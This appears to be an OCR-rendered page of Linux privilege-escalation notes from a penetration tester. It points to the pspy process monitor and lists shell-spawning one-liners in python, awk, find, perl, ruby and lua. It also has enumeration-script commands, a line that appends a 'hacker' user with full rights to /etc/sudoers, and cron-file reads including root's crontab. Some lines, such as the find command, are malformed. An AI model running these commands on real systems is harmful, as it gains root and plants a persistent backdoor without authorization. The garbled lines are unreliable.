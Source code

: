 

Run pspy64

```bash
#https://github.com/DominicBreuker/pspy

Run in background and watch for any processes running
```



Spawn TTY

```bash
#https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
awk 'BEGIN {system("/bin/sh")}'
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
irb(main:001:0> exec "/bin/sh"
Can also use socat
```



Enum Scripts

```bash
cd /EscalationServer/
chmod u+x linux_enum.sh
chmod 700 linuxenum.py

./linux_enum.sh
python linuxenum.py
```



Add User to Sudoers

```
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```



List CronJobs

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```
